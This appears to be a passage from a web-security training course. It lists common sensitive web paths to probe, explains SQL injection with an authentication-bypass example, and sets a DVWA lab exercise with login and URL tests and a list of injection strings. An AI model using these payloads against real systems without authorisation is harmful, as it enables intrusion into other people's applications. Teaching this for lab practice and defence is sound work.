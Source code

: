 **What you might find:**
- /admin (administration panel)
- /backup (backup files)
- /config (configuration files)
- /uploads (user uploads)
- /test (development files)
- /.git (exposed git repository)
- /phpinfo.php (PHP information disclosure)

**Real-world example findings:**
- WordPress: /wp-admin, /wp-content, /wp-includes
- Joomla: /administrator
- Common: /admin, /login, /dashboard, /api

#### SQL Injection Basics

**SQL Injection:** Inserting malicious SQL code into application queries.

**How it works:**

```sql
# Normal query:
SELECT * FROM users WHERE username='admin' AND password='pass123'

# Injected input in username field: admin' OR '1'='1
# Resulting query:
SELECT * FROM users WHERE username='admin' OR '1'='1' AND password='pass123'

# '1'='1' is always true, so authentication bypassed!
```

**Exercise 11: SQL Injection Detection (15 minutes)**

**Using DVWA (if setup) or conceptually:**

**Test for SQL injection:**

1. **Login form testing:**
   ```
   Username: admin' OR '1'='1
   Password: anything
   
   # If vulnerable, you'll log in
   ```

2. **URL parameter testing:**
   ```
   http://target/product.php?id=1'
   
   # If error message appears with SQL syntax, vulnerable
   ```

3. **Common injection strings:**
   ```
   '
   ''
   `
   "
   )
   ')
   ")
   OR 1=1--
   ' OR 'a'='a
   admin'--
   ') OR ('1'='1
   ```
